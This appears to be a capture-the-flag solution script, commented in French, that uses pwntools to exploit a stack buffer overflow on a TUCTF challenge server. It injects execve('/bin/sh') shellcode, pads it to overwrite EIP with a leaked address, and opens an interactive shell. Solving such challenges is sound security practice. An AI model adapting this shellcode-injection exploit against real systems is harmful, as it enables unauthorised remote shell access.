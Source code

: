 `from pwn import *

IP = "chal.tuctf.com"
PORT = 30506

p = remote(IP, PORT)

ret = ""
pad = 40 #Padding pour réecrire le EIP
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" \
            "\x68\x68\x2f\x62\x69\x6e\x31" \
            "\xc9\x31\xd2\x89\xe3\xb0\x0b" \
            "\xcd\x80"

#Récupère l'adresse EIP
leak_ret = p.readuntil(">").split("\n")[1]
leak_ret = int(leak_ret, 16)

# Shellcode + Padding + RET_EIP
payload = shellcode+"A"*(pad-len(shellcode))+p32(leak_ret)

p.send(payload)
p.interactive()`
